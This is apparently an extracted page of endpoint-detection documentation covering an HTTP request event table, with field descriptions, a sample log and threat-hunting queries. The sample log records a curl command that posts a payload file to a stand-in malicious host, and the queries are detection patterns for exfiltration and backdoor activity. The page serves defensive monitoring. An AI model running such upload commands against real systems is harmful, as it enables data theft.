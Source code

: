 
### 3. Important Parameter Description

| Parameter | Description | Platforms Affected |
|---|---|---|
| HttpPath | The path part of the HTTP request URL. | Linux, macOS |
| HttpHost | The host (domain name or IP address) to which the HTTP request was sent. | Linux, macOS |
| HttpMethod | The HTTP method used for the request (e.g., GET, POST, PUT). | Linux, macOS |
| RemoteAddressIP4 | The IPv4 address of the remote host to which the connection was made. | Linux, macOS |
| RemotePort | The remote port number used for the connection. | Linux, macOS |
| ImageFileName | The full path to an executable (PE) file. The context of this field provides more information as to its meaning. For ProcessRollup2 events, this is the full path to the main executable for the created process. | Linux, macOS |
| CommandLine | The command line used to create this process. May be empty in some circumstances. | Linux, macOS |

---

### 4. Sample Log Example

```json
{
  "HttpPath": "/api/v1/data",
  "HttpHost": "malicious.example.com",
  "HttpMethod": "POST",
  "RemoteAddressIP4": "192.0.2.100",
  "RemotePort": "443",
  "ImageFileName": "/usr/bin/curl",
  "CommandLine": "curl -X POST [https://malicious.example.com/api/v1/data](https://malicious.example.com/api/v1/data) -d @payload.json"
}
```
---

### 5. Example Queries
```xql
// Find all HTTP POST requests to a specific host
event_simpleName=HttpRequest HttpMethod=HTTP_METHOD_POST HttpHost="malicious.example.com"

// Identify HTTP requests originating from a suspicious image file
event_simpleName=HttpRequest ImageFileName="/usr/local/bin/backdoor_app"

// Find HTTP requests to a specific IP address on a given port
event_simpleName=HttpRequest RemoteAddressIP4="192.0.2.100" RemotePort="8080"

// Search for HTTP requests with specific keywords in the path or command line
event_simpleName=HttpRequest HttpPath="*exfil*" OR CommandLine="*upload_data*"

// Discover HTTP requests where HttpHost contains an unusual domain pattern
event_simpleName=HttpRequest HttpHost="*.xyz" OR HttpHost="*.top"
```
---
## ImgExtensionFileWritten Table: File Written Event
